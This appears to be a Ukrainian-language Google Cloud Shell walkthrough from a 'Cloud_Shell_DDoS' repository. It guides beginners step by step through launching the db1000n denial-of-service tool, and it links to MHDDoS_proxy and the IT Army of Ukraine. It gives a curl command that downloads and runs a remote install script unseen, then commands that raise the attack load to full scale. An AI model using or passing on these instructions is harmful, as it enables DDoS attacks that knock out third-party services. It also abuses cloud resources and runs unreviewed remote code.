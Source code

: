 
#   Все буде Україна! 💙💛

## Привіт друзі
Бажаю вам чудового настною та гарного дня!

### Запуск «Death by 1000 needles» (db1000n)

- Для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі.
  Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною  ***після закінчення даного сеансу***.

###  Зверніть увагу   
Якщо з'єднання перервано не підключайтесь вдруге бо вийдете з **ефемерного режиму**. Краще ***завантажтесь знову***, натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до запуску **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  Для запуска «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   Якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче
```bash
./db1000n --scale 0.7
```
-   або наступну команду з ще більшим навантаженням
```bash
./db1000n
```
### Щоб переглянути навантаження на процесор використаємо команду **htop**
-   Додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та виконайте наступну команду
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
